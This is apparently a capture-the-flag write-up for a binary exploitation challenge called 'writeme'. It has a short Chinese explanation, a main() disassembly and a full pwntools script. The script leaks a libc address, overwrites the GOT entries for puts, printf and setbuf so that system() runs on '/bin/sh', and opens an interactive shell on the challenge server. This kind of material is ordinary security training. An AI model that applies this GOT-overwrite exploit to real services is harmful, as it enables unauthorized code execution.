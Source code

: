 ## writeme (150)
Credits to my teammates.

### solution
先將讀寫memory位置設為puts got的位置，leak出puts在lib的address，並得到system address
將puts got改為0x4006d3，使得process可以不斷重複讀寫memory的過程
發現0x4006ad是一段會將rdi寫為0x600be0並呼叫setbuf，所以只要把0x600be0寫為'/bin/sh'（改掉會使得printf發生error,需先將printf got改掉，setbuf got改為system即可get shell
以上過程皆可藉著不斷重複讀寫指定memory位置這段code完成
```
0000000000400696 <main>:
  400696:	55                   	push   rbp
  400697:	48 89 e5             	mov    rbp,rsp
  40069a:	48 83 ec 10          	sub    rsp,0x10
  40069e:	64 48 8b 04 25 28 00 	mov    rax,QWORD PTR fs:0x28
  4006a5:	00 00 
  4006a7:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
  4006ab:	31 c0                	xor    eax,eax
  4006ad:	48 8b 05 2c 05 20 00 	mov    rax,QWORD PTR [rip+0x20052c]        # 600be0 <__TMC_END__>
  4006b4:	be 00 00 00 00       	mov    esi,0x0
  4006b9:	48 89 c7             	mov    rdi,rax
  4006bc:	e8 8f fe ff ff       	call   400550 <setbuf@plt>
  4006c1:	48 c7 45 f0 00 00 00 	mov    QWORD PTR [rbp-0x10],0x0
  4006c8:	00 
  4006c9:	bf 04 08 40 00       	mov    edi,0x400804
  4006ce:	e8 5d fe ff ff       	call   400530 <puts@plt>
  4006d3:	bf 0b 08 40 00       	mov    edi,0x40080b
  4006d8:	b8 00 00 00 00       	mov    eax,0x0
  4006dd:	e8 7e fe ff ff       	call   400560 <printf@plt>
```

### script

```python
from pwn import *
r = remote('35.194.194.168',6666)
#r = process('./writeme')

buf = 0x600100
puts_got = 0x600ba0
printf_got = 0x600bb8
setbuf_got = 0x600bb0
start = 0x4006d3
mov_rax_rdi_add = 0x600be0
bin_sh  = '29400045130965551'

r.recvuntil(':')

r.sendline(str(puts_got))
r.recvuntil('=')
puts_lib = int(r.recvuntil('\n').strip(),16)
r.sendline(str(start))

r.sendline(str(printf_got))
r.recv()
r.sendline(str(puts_lib))

r.sendline(str(buf))
r.recv()
r.sendline(bin_sh)

r.sendline(str(mov_rax_rdi_add))
r.recv()
r.sendline(str(buf))
r.recv()

r.sendline(str(setbuf_got))
r.recv()
r.sendline(str(puts_lib - 0x6f690 + 0x45390))
r.recv()

r.sendline(str(puts_got))
r.recv()
r.sendline(str(0x4006ad))

r.interactive()
```
